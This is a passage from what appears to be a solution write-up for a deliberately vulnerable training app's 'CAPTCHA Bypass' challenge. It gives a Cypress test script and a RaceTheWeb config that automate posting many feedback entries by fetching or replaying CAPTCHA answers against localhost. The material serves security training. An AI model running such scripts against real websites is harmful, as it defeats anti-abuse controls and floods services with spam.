 ```jsx
  describe('challenge "captchaBypass"', () => {
   it('should be possible to post 10 or more customer feedbacks in less than 20 seconds', () => {
      cy.window().then(async () => {
         for (let i = 0; i < 15; i++) {
            const response = await fetch(
                    `${Cypress.env('baseUrl')}/rest/captcha/`,
                    {
                       method: 'GET',
                       headers: {
                          'Content-type': 'text/plain'
                       }
                    }
            )
            if (response.status === 200) {
               const responseJson = await response.json()

               await sendPostRequest(responseJson)
            }

            async function sendPostRequest (captcha: {
               captchaId: number
               answer: string
            }) {
               await fetch(`${Cypress.env('baseUrl')}/api/Feedbacks`, {
                  method: 'POST',
                  cache: 'no-cache',
                  headers: {
                     'Content-type': 'application/json'
                  },
                  body: JSON.stringify({
                     captchaId: captcha.captchaId,
                     captcha: `${captcha.answer}`,
                     comment: `Spam #${i}`,
                     rating: 3
                  })
               })
            }
         }
      })
      cy.expectChallengeSolved({ challenge: 'CAPTCHA Bypass' })
   })
})
```

*It is worth noting that both alternate solutions would still work even if the CAPTCHA-pinning problem would be fixed in the application!*

Last but not least, the following [RaceTheWeb](https://github.com/aaronhnatiw/race-the-web) config could be used to solve this challenge. Other than the two above alternate solutions, this one relies on CAPTCHA-pinning:

```toml
# CAPTCHA Bypass
# Save this as captcha-bypass.toml
# Get Captcha information from this endpoint first: http://localhost:3000/rest/captcha/
# Then replace captchaId and captcha values in body parameter of this file
# Launch this file by doing ./racethweb captcha-bypass.toml
count = 10
verbose = true
[[requests]]
    method = "POST"
    url = "http://localhost:3000/api/Feedbacks/"
    body = "{\"captchaId\":12,\"captcha\":\"-1\",\"comment\":\"pwned2\",\"rating\":5}"
    headers = ["Content-Type: application/json"]
```